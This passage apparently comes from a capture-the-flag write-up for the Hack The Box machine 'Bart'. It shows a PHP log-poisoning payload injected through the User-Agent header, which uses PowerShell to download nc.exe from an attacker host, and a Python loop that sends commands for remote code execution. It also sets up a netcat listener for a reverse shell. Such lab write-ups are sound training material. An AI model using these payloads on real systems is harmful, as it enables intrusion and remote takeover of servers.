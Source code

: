 Once that's up and running, we can inject into the `User-Agent` value:
```
GET /log/log.php?&username=harvey&filename=log.php HTTP/1.1
Host: internal-01.bart.htb
User-Agent: <?php echo exec("powershell -command \"(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.21/nc.exe','nc.exe')\""); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=v3jcjjj77dumj5cbmpo0q6ds53
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Content-Length: 0
````
![Image](/assets/bart/020.png)

Now to get a shell :D. I setup a quick script to easily run commands using the php script we uploaded earlier to get RCE. Here's the script -- just copy and paste it into a file, and `chmod +x filename` then `./filename`:
```
#!/usr/bin/env python3

import requests

while True:    # infinite loop
	CMD = input("#: ")
	url = "http://internal-01.bart.htb/log/log.php?cmd="+CMD+"&username=harvey"
	r = requests.post(url)
	print(r.text)
````

Output:
![Image](/assets/bart/021.png)

A little messy, but it works. Now to use `nc.exe` to get a shell. Make sure to have a listener running locally:
```
nc -lvnp 8812
```

Now to run nc on the target machine:
![Image](/assets/bart/022.png)

And there we go -- we've got a shell.  


# Privesc to user
A little bit of hunting later, and I've found some DB creds:
![Image](/assets/bart/023.png)
